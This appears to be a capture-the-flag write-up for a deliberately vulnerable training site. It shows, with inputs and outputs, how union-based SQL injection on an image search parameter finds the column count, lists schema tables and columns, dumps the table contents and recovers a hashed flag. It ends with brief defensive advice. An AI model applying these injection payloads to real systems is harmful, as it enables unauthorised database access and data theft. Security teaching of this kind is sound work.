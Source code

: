 # Images SQL injection vulnerability

https://owasp.org/www-community/attacks/SQL_Injection

https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/

https://resources.infosecinstitute.com/topic/dumping-a-database-using-sql-injection/

## Description

We find and sql injection vulnerability in the member search
our input is directly passed to the query,
means we can add parameters to the WHERE clause
The query must be similar to this:

`$id = isset($_GET['id'])
=> SELECT * FROM list_images WHERE id = ${input}`

## Attack

### I - Find the number of column with ORDER BY
---

input = "-1 ORDER BY N"

with order by if the number of column is superior it will show and error 
so we go with N = 1 then 2 then 3, and here we get and error

http://${IP}/?page=searchimg&id=1+ORDER+BY+2&Submit=Submit#

ID: 1 ORDER BY 2 
Title: Nsa
Url : https://www.nsa.org/img.jpg

=> The number of column is 2

### II - Find the vulnerable column with UNION SELECT
---

input = "-1 UNION SELECT 1,2"

http://${IP}/?page=searchimg&id=1+union+select+1%2C2&Submit=Submit#

ID: -1 union select 1,2 
Title: 2
Url : 1

=> The second column is vulnarable

input = "-1 UNION SELECT 1,version()"

http://${IP}/?page=searchimg&id=1+union+select+1%2Cversion%28%29&Submit=Submit#

ID: 1 union select 1,version() 
Title: 5.5.44-0ubuntu0.12.04.1
Url : 1

input = "-1 UNION SELECT 1,database()"

ID: -1 UNION SELECT 1,database() 
Title: Member_images
Url : 1

### III - Find the table name and columns with GROUP_CONCAT() | INFORMATION_SCHEMA() | DATABES()
---

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE())"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE()) 
Title: list_images
Url : 1

=> Table name = list_images

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE())"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE()) 
Title: id,url,title,comment
Url : 1

### IV - Extract data
---

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(id) FROM list_images)"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(id) FROM list_images) 
Title: 1,2,3,4,5,6
Url : 1

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(url) FROM list_images)"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(url) FROM list_images) 
Title: https://www.nsa.org/img.jpg ,https://www.42.fr/42.png,https://www.google.fr/google.png, https://www.obama.org/obama.jpg, borntosec.ddns.net/images.png, https://www.h4x0r3.0rg/tr0ll.png
Url : 1

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(title) FROM list_images)"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(title) FROM list_images) 
Title: Nsa,42 !,Google,Obama,Hack me ?,tr00l
Url : 1

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(comment) FROM list_images)"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(comment) FROM list_images) 
Title: An image about the NSA !,There is a number..,Google it !,Yes we can !,If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46,Because why not ?
Url : 1

### V - Result
---

=> If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

=> 1928e8083cf461a51303633093573c46 -> md5 -> albatroz -> Sh256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Defense
Option 1: Use of Prepared Statements (with Parameterized Queries)

Option 2: Use of Properly Constructed Stored Procedures

Option 3: Allow-list Input Validation

Option 4: Escaping All User Supplied Input